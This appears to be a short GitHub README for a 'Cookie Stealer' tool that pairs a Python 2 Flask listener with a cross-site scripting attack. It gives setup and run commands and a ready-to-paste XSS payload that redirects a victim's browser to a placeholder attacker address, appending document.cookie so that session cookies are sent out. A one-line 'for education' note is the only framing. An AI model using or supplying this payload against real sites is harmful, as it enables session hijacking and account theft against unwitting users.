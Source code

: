 # Cookie Stealer
steal cookies from websites using xss :)

# Requirements :
- python2
- Flask module

# install requirements (Linux) :

````
$ apt install python2
````

````
$ pip install flask
````


# Run It :
 

````
 $ python2 xss.py
 ````
 
# Cookie Path :


````http://YOUR_IP/cookie/<COOKIE>``` 
 

# Payload :
  
  ````
  "><script>document.location="http://YOUR_IP/cookie/" + document.cookie </script>
  ````
  
# Note :
    
This Tool For education .. Good Luck ^_^


# My Links :

- Facebook  : <a href="https://www.facebook.com/profile.php?id=100015121337012" >Khaled Nassar</a>
- Hackerone : <a href="http://hackerone.com/knassar702">Khaled Nassar</a>

